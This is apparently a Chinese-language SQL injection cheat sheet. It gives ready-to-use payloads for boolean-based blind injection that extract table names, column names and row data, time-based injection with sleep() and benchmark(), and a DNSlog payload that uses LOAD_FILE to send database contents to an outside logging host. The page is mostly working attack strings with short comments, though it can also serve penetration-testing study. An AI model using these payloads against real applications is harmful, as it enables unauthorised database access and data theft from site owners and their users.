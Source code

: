 id=1’ and 1=1 #页面正常

id=1' and 1=2 #页面不正常

###### 盲注常用函数

```
length()              #返回字符串的长度，例如可以返回数据库名字的长度 
substr()              #⽤来截取字符串 
ascii()		          #返回字符的ascii码
sleep(n)              #将程序挂起⼀段时间，n为n秒
if(expr1,expr2,expr3) #判断语句 如果第⼀个语句正确就执⾏第⼆个语句如果错误执⾏第三个语句
```

###### 通过true和false爆数据

```
id=1' and length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=5 #修改数字，直到页面正常，得到当前数据库第一个表的长度
id=1' and substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))='t' #修改substr(str,1,1)里面数字猜解每个字母，得到表名
id=1' and (select count(column_name) from information_schema.columns where table_name='表名')=8 #爆字段数
id=1' and length(substr((select column_name from information_schema.columns where table_name= '表名' limit 0,1),1))=7 #爆第一个字段长度
id=1' and substr((select column_name from information_schema.columns where table_name= '表名' limit 0,1),1,1)='a'#爆字段名
id=1' and ascii(substr((select user from 库名.表名 limit 0,1),1,1))=97 #爆字段数据
```

#### 时间型盲注

适用于注入点页面返回无变化的页面。只有通过页面返回时间判断。

##### sleep()进行延时注入

```
id=1' and if(length(database())=8,sleep(10),1)--+#判断数据库长度是不是8个字符，如果是延时10秒
id=1' and If(ascii(substr(database(),1,1))=115,sleep(10),1)--+ #截取数据库每个字符判断，直到爆出数据库名
```

##### benchmark()进行延时注入

benchmark()是重复执行某表达式

```
benchmark(5000000,md5(1));  #重复执行5000000次md5(1),替换sleep()作用
```



#### DNSlog注入

盲注由于爆数据太慢，这里用DNSlog方式可以快速获取数据

用户文件权限为空  @@secure_file_priv

申请一个DNS接收平台比如：ko8jyt.ceye.io

```
 SELECT LOAD_FILE(CONCAT('\\\\',(select version()),'.ko8jyt.ceye.io\\abc')); #成功可在平台上看到记录
```
